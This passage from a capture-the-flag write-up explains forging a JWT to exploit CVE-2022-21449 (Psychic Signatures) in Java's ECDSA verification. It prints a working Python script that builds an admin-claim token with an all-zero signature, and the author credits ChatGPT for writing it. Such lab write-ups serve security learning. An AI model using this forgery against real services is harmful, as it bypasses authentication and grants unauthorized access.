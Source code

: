 But trying to download this file, we simply get a `404`. 

`@jaxafed` added that, we need to authenticate as `hydra` and download the file. He went on to explain the conversation in `chat.log` that there was a mention of `JWT` and a major vulnerability inside an algorithm that `Bob` was using which could be `ECDSA` and that leading to `CVE-2022-21449: Psychic Signatures`.

The only problem here was that, we didn't know what `claims` to use inside the forged JWT.

Again, after spending hours, I gave up and asked `@hydragyrum` for help. He mentioned the hint in the room `supersonic subatomic`. 

Googling the hint, we learn about `Quarkus`. Further looking inside `Quarkus`'s [documentation](https://quarkus.io/guides/security-jwt) We learn about some `claims` which could potentially be used such as : `username`, `name`, `birthdate`, `upn`.

### CVE-2022-21449

> [nist.gov](https://nvd.nist.gov/vuln/detail/cve-2022-21449) - CVE-2022-21449
> 
> Vulnerability in the Oracle Java SE, Oracle GraalVM Enterprise Edition product of Oracle Java SE (component: Libraries). Supported versions that are affected are Oracle Java SE: 17.0.2 and 18; Oracle GraalVM Enterprise Edition: 21.3.1 and 22.0.0.2. Easily exploitable vulnerability allows unauthenticated attacker with network access via multiple protocols to compromise Oracle Java SE, Oracle GraalVM Enterprise Edition. Successful attacks of this vulnerability can result in unauthorized creation, deletion or modification access to critical data or all Oracle Java SE, Oracle GraalVM Enterprise Edition accessible data.
{: .prompt-info}

Here is some reading material on this `CVE` and how it can be exploited:
- [neilmadden.blog](https://neilmadden.blog/2022/04/19/psychic-signatures-in-java/)
- [securecodewarrior.com](https://www.securecodewarrior.com/article/psychic-signatures)

Using the code below (thank you ChatGPT), we can generate a forged JWT. Some other common `claims` have been added as well.
```python
import base64
import json

def base64url_encode(data):
    return base64.urlsafe_b64encode(data).rstrip(b'=').decode('utf-8')

header = {
    "alg": "ES256",  # ECDSA using P-256 and SHA-256
    "typ": "JWT"
}

# Modify and test different payloads to see what the application accepts
payload ={
  "sub": "hydra",
  "admin": True,
  "name": "hydra",
  "username": "hydra",
  "user" : "hydra",
  "id": 0
}

# Encode header and payload
header_b64 = base64url_encode(json.dumps(header).encode())
payload_b64 = base64url_encode(json.dumps(payload).encode())

# r=s=0 (DER-encoded)
signature_DER = "MAYCAQACAQA"
    
# Put everything together
jwt_forged = f"{header_b64}.{payload_b64}.{signature_DER}"

```